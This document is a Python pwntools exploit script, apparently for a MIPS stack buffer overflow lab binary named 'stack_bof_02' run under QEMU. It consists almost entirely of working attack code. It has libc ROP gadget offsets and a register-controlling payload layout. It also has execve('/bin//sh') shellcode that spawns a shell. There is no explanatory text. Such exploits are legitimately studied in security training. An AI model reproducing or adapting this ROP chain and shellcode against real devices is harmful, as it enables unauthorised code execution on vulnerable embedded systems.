   ```python
  # .text:00095B7C                 sw      $v0, 20($sp)
  # .text:00095B80                 move    $a3, $s2
  # .text:00095B84                 move    $t9, $s5
  # .text:00095B88                 jalr    $t9
  jr_a1 = 0x12568C
  # .text:0012568C                 move    $t9, $a1
  # .text:00125690                 move    $a3, $v0
  # .text:00125694                 move    $a1, $a0
  # .text:00125698                 jalr    $t9
  sleep = 0xB8FC0
  
  shellcode  = b""
  shellcode += b"\xff\xff\x06\x28"  # slti $a2, $zero, -1
  shellcode += b"\x62\x69\x0f\x3c"  # lui $t7, 0x6962
  shellcode += b"\x2f\x2f\xef\x35"  # ori $t7, $t7, 0x2f2f
  shellcode += b"\xf4\xff\xaf\xaf"  # sw $t7, -0xc($sp)
  shellcode += b"\x73\x68\x0e\x3c"  # lui $t6, 0x6873
  shellcode += b"\x6e\x2f\xce\x35"  # ori $t6, $t6, 0x2f6e
  shellcode += b"\xf8\xff\xae\xaf"  # sw $t6, -8($sp)
  shellcode += b"\xfc\xff\xa0\xaf"  # sw $zero, -4($sp)
  shellcode += b"\xf4\xff\xa4\x27"  # addiu $a0, $sp, -0xc
  shellcode += b"\xff\xff\x05\x28"  # slti $a1, $zero, -1
  shellcode += b"\xab\x0f\x02\x24"  # addiu;$v0, $zero, 0xfab
  shellcode += b"\x0c\x01\x01\x01"  # syscall 0x40404
  
  pay =  b''
  pay += b'a'*508
  pay += p32(set_s2_addr+libc_base)
  pay += b'b'*24
  pay += b'1111'                    #s0
  pay += b'2222'                    #s1
  pay += p32(jr_t9_jr_ra+libc_base) #s2 - > set a0 
  pay += p32(sleep+libc_base)       #s3
  pay += b'5555'                    #s4
  pay += p32(jr_a1+libc_base)     #s5
  pay += b'7777'                    #s6
  pay += p32(set_a0_addr+libc_base)
  pay += b'c'*0x34
  pay += p32(addiu_a1_sp+libc_base)
  pay += b'd'*52
  pay += shellcode
  
  
  
  log.info(hex(0x94A10+libc_base))
  log.info('addiu_a0_sp_24: {}'.format(hex(addiu_a1_sp+libc_base)))
  
  
  with open('payload','wb') as f:
       f.write(pay)
  
  # p = process(['qemu-mipsel-static', '-L', './mipsel', '-g', '1234','./stack_bof_02', pay])
  p = process(['qemu-mipsel-static', '-L', './mipsel', './stack_bof_02',pay])
  pause()
  p.interactive()
  ```

